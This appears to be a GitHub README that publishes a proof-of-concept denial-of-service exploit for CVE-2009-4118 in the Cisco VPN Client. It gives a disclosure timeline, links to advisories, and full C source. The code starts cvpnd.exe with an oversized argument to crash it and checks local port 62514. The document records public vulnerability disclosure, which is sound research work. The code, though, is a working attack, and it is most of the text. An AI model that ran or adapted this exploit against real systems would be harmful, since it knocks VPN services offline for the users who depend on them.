 INFO
----

    # CVE-2009-4118
    Cisco VPN Client - Integer Overflow Denial of Service

    Exploit-DB publication at  https://www.exploit-db.com/exploits/10190/

    # Cisco official Intelligence AlertID 19445 and Credits

    http://tools.cisco.com/security/center/viewAlert.x?alertId=19445

    ![cve-2009-4118](https://user-images.githubusercontent.com/3140111/40872784-98bb237a-6654-11e8-9a77-7fb94a8edf1d.png)

    # Author
    Alex Hernandez aka <em><a href="https://twitter.com/_alt3kx_" rel="nofollow">(@_alt3kx_)</a></em>

EXP
---

    /*
    Cisco VPN client version 5.0.03.0560
    Cisco VPN client Version 5.0.04.0300
    Cisco VPN client Version 5.0.05.0290
    Cisco VPN client Version 4.8.02.0010
    */

    /*
     * Cisco VPN Client 0day Integer overflow (DOS) Proof Of Concept Code
     *
     * By Alex Hernandez aka alt3kx (c) November 2009
     *
     * This POC is only for test. If an application read a malformed chars
     * file like this POC, the application will be crashed.
     *
     * We tested this code on:
     *
     * Windows Vista Bussines SP1 Spanish
     * Windows Vista Home Premium  SP1 English
     * Windows 2000 Server English
     * Windows XP Professional SP3
     *
     * Cisco VPN client version 5.0.03.0560
     * Cisco VPN client Version 5.0.04.0300
     * Cisco VPN client Version 5.0.05.0290
     * Cisco VPN client Version 4.8.02.0010
     *
     * Compiled on VC++ win32
     *
     * Friends:
     * sirdarckcat, nitr0us, hkm, crypkey, xDAWN, canit0, chr1x
     *
     * TT & DSRT
     * daSh, p4r4n01ds, darkslaker, beto, motis.
     *
     * Very special credits to:
     *
     * str0ke (milw0rm.com)
     * rathaus (securiteam.com)
     * FX (Phenoelit.de)
     * dSR! (segfault.es)
     * 0dd (0dd.com)
     *
     *
     * PH-Neutral 0x7d9, We hope to see u there intruders
     *
     * ---------------
     * Report Timeline
     * ---------------
     * 06/03/2009   The vulnerability was discovered.
     * 07/03/2009   Exploit/PoC code was developed (private).
     * 09/03/2009   Cisco PSIRT was notified about the issue.
     * 11/03/2009   Vendor response asking for details of the testing environment.
     * 12/03/2009   Test scenario explained and sent a PDF document with details.
     * 16/03/2009   Developers/PSIRT confirmed the vulnerability.
     * 19/03/2009   New test scenarios around new versions (CISCO VPN client).
     * 23/03/2009   CISCO PSIRT assing an internal tracking PSIRT-0676131279.
     * 23/03/2009   CISCO PSIRT assing an Bug ID-CSCsz49276.
     * 15/04/2009   New Advisory release (private).
     * 16/04/2009   New PSIRT feedback no ETA avaiable.
     * 23/04/2009   The development team working the fix.
     * 01/05/2009   The development team estimated one month to fix.
     * 01/06/2009   New PSIRT feedback, no ETA available.
     * 29/06/2009   The development team estimated one month to fix.
     * 28/07/2009   The development team working on maitenance release.
     * 28/07/2009   The development team estimated one month to fix.
     * 02/09/2009   New vulnerabilities found on CISCO VPN client.
     * 02/09/2009   The development team can not publish the new version 5.0.6.
     * 02/09/2009   The development team working on maitenance release.
     * 02/09/2009   The development team estimated one month to fix.
     * 10/09/2009   The BETA program should be finished by the end of Oct
     * and the client posted next month.
     * 07/10/2009   The development team estimated one month to fix.
     * 11/11/2009   New PSIRT feedback RNA avaiable.
     * 19/11/2009   The vulnerability goes public and PSIRT is informed.
     * 19/11/2009   Fix and details will available on CISCO Intellishield Alert & Bug Tool kit.
     *
     * CISCO Fix and Details:
     *
     * BugToolKit:
     * http://tools.cisco.com/Support/BugToolKit/search/getBugDetails.do?method=fetchBugDetails&bugId=CSCsz49276
     *
     * Intellishield Alert:
     * http://tools.cisco.com/security/center/viewAlert.x?alertId=19445
     *
     */

    #include <windows.h>
    #include <winsock.h>
    #include <stdio.h>
    #pragma comment ( lib, "ws2_32.lib" )

    int CheckPortUDP( short int nPort )
    {
        struct sockaddr_in nSockServer;

        WSADATA wsaData;

        int lBusy = 0;
        int nSocket;

        /* Initialization */
        if( WSAStartup( 0x0101, &wsaData ) == 0 )
        {
            /* Create Socket */
            nSockServer.sin_family      = AF_INET;
            nSockServer.sin_port        = htons( nPort );
            nSockServer.sin_addr.s_addr = inet_addr( "127.0.0.1" );

            /* Check UDP Protocol */
            nSocket = socket( AF_INET, SOCK_DGRAM, 0 );

            lBusy = ( bind( nSocket, (SOCKADDR FAR *) &nSockServer,
                                sizeof( SOCKADDR_IN ) ) == SOCKET_ERROR );

            /* Close Socket if Busy */
            if( lBusy )
                closesocket( nSocket );

            /* Close Winsock */
            WSACleanup();
        }

        /* Return */
        return( lBusy );
    }

    int CheckPortTCP( short int nPort )
    {
        struct sockaddr_in nSockServer;

        WSADATA wsaData;

        int lBusy = 0;
        int nSocket;

        /* Initialization */
        if( WSAStartup( 0x0101, &wsaData ) == 0 )
        {
            /* Create Socket */
            nSockServer.sin_family      = AF_INET;
            nSockServer.sin_port        = htons( nPort );
            nSockServer.sin_addr.s_addr = inet_addr( "127.0.0.1" );

            /* Check TCP Protocol */
            nSocket = socket( AF_INET, SOCK_STREAM, 0 );

            lBusy = ( connect( nSocket, (struct sockaddr *) &nSockServer,
                         sizeof( nSockServer ) ) == 0 );

            /* Close Socket if Busy */
            if( lBusy )
                closesocket( nSocket );

            /* Close Winsock */
            WSACleanup();
        }

        /* Return */
        return( lBusy );
    }

    int main(void)
    {

        char szPath[] = "C:\\Program Files\\Cisco Systems\\VPN Client\\cvpnd.exe";
        //uncomment this line for Windows XP Spanish versions
        //char szPath[] = "C:\\Archivos de programa\\Cisco Systems\\VPN Client\\cvpnd.exe";
        char buffer[] = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
        PROCESS_INFORMATION pif;
        STARTUPINFO si;
        ZeroMemory(&si,sizeof(si));
        si.cb = sizeof(si);

        BOOL bRet = CreateProcess(
            szPath,
            buffer,
            NULL,
            NULL,
            FALSE,
            0,
            NULL,
            NULL,
            &si,
            &pif);

        system("cls");
        printf("\n .:: Cisco VPN Client 0day Integer overflow (DoS) Proof Of Concept Code ::.\n");
        printf(" .:: By Alex Hernandez aka alt3kx (c) November 2009 .::\n\n");


        /* Check for TCP Port */

        if( CheckPortTCP(62514) )
            printf("[+] Cisco VPN Client TCP port listening\t[OK!]\n");
        else
            printf("[+] Cisco VPN Client TCP Port isn't Busy\t[Wrong!]\n");

        /* Check for UDP Port */

        if( CheckPortUDP(62514) )
            printf("[+] Cisco VPN Client UDP port listening\t[OK!]\n");
        else
            printf("[+] Cisco VPN Client UDP Port isn't Busy\t[Wrong!]\n");

        if(bRet == FALSE){MessageBox(HWND_DESKTOP,"Unable to start program check the default PATH Cisco VPN Client cvpnd.exe\n","",MB_OK);
        return 1;}

        else if (bRet == TRUE){MessageBox(HWND_DESKTOP,"Attempting exploit Cisco VPN DoS exploit...","",MB_OK);
            printf("\n[+] Few seconds to crash the program...\n");
            printf("[+] Exploit success...\n\n");
        return 1;}

        CloseHandle(pif.hProcess);
        CloseHandle(pif.hThread);

    }